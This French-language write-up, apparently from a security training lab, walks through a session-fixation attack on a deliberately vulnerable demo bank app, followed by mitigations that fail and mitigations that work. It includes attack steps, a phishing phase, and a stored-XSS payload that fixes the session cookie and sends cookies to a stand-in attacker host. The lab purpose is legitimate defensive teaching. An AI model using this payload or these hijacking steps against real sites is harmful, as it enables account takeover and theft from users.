

# Scénario d'attaque détaillé

## Cast

| Acteur   | Rôle                                | Compte                          |
|----------|-------------------------------------|---------------------------------|
| Alice    | Cliente CaptusBank légitime         | `alice / Password123!` — 12 450 €|
| Mallory  | Attaquant externe motivé financièrement | `mallory / EvilPass1!` — 5 €    |
| Bob      | Témoin / utilisateur secondaire     | `bob / BobPass456!`             |

## Diagramme de séquence



## Phases détaillées

### Phase 1 — Reconnaissance (côté attaquant, ~5 min)

Mallory inspecte avec les DevTools du navigateur :

```
> document.cookie
"PHPSESSID=l8sf2k…"   # SID assigné dès la première visite
```

Il se connecte, observe le cookie après login : **le SID n'a pas changé**.
Verdict : `session_regenerate_id` absent. La fixation est exploitable.

Il vérifie via `curl -v http://vuln.bank.local/login.php?PHPSESSID=arbitrary_value_xyz` :
le serveur accepte ce SID arbitraire (`Set-Cookie: PHPSESSID=arbitrary_value_xyz`).

### Phase 2 — Préparation

Mallory choisit un SID identifiable : `ATTACKER_FIXED_SID_001`.

Il l'utilise pour se connecter avec son propre compte, ce qui crée une ligne en BDD
mais surtout familiarise le serveur avec ce SID.

### Phase 3 — Fixation multi-vecteurs

**Vecteur A — URL** : Mallory crée un lien
```
http://vuln.bank.local/login.php?PHPSESSID=ATTACKER_FIXED_SID_001
```

**Vecteur B — XSS stocké** : Il poste un commentaire :
```html
<script>
document.cookie = "PHPSESSID=ATTACKER_FIXED_SID_001; path=/";
new Image().src = "http://evil.attacker.lab/collect.php?m=xss"
  + "&sid=ATTACKER_FIXED_SID_001"
  + "&c=" + encodeURIComponent(document.cookie);
</script>
```

**Vecteur C — Sous-domaine** (théorique pour cette démo) : Mallory pousse un cookie depuis
`promo.bank.local` avec `Domain=.bank.local` qui supplante celui de `vuln.bank.local`.

### Phase 4 — Phishing

Mallory utilise [attacker-server/public/phishing.html](../attacker-server/public/phishing.html)
comme template, l'envoie par email à Alice avec le bouton "Vérifier mon compte"
pointant vers le vecteur A.

### Phase 5 — Hijacking + persistence

Une fois Alice authentifiée, Mallory rejoue le SID. Il dispose d'un accès complet
et peut :

- Effectuer des virements (V007 — pas de CSRF, pas de 2FA)
- Modifier l'email du compte (page profil) pour intercepter les notifications
- Insérer un commentaire XSS supplémentaire pour persister
- Effacer ses traces en supprimant le commentaire vecteur

## Mitigations qui ÉCHOUENT (et pourquoi)

Plusieurs "protections" naïves n'arrêtent **pas** cette attaque ; il est utile
de le démontrer dans le rapport :

| Mitigation naïve                       | Pourquoi elle échoue                                          |
|----------------------------------------|---------------------------------------------------------------|
| `htmlspecialchars` sur `comments` seulement | Le vecteur URL fonctionne toujours                            |
| `SameSite=Lax`                         | La navigation top-level depuis l'email reste autorisée        |
| Vérification IP stricte                | Alice et Mallory peuvent être sur le même réseau (NAT, VPN)   |
| Vérification User-Agent stricte        | Trivial à spoofer ; faux positifs sur mobile                  |
| `session_destroy()` seul au logout     | Ne supprime pas le cookie côté client                         |
| Augmenter l'entropie du SID            | N'a aucun effet : Mallory ne le devine pas, il l'impose       |

## Mitigations qui RÉUSSISSENT

L'application sécurisée échoue à toutes les étapes ci-dessus :

| Étape | Bloqueur                                          |
|-------|---------------------------------------------------|
| Fixation par URL    | `session.use_only_cookies = 1`                    |
| Fixation par cookie | `session.use_strict_mode = 1` rejette les SID inconnus |
| XSS stocké          | `htmlspecialchars` + CSP `script-src 'self'`      |
| Vol post-login      | `session_regenerate_id(true)` au login            |
| Rejeu du SID volé   | Binding fingerprint UA + IP/24 + audit alert      |
| CSRF sur virement   | Token CSRF obligatoire                            |
